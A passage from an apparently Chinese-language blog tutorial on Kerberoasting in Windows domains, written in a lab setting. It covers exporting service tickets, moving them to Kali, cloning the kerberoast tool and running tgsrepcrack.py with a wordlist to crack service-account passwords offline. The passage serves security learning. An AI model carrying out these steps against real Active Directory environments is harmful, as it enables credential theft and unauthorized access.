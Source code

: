 

如图所见，在实验环境下单次导出了6张票据，虽然有administrator的票据但是在现实环境中票据数量可能达到成百上千张,关于筛选票据的内容可以查看[这篇文章](https://malicious.link/post/2016/kerberoast-pt2/)，但是建议使用帝国模块，powershell的脚本我尝试后没有输出文件。

![image.png](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-485f47bafcff42af8445ed52d565bb1f.png)



将文件传至kali，并在kali下载kerberoast

> 使用hashcat什么的都可以，看个人喜欢
> 如果是windows环境，可以查看[这篇文章](https://msitpros.com/?p=3113)进行环境部署

```bash
#all python3
pip install PyCrypto
pip install PyASN1
git clone https://github.com/nidem/kerberoast.git
cd kerberoast
```



使用密码离线爆破服务账户密码

```powershell
python3 tgsrepcrack.py <WordDict File> <Ticket File>
```

![image-20211123152649813](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-20211123152649813.png)
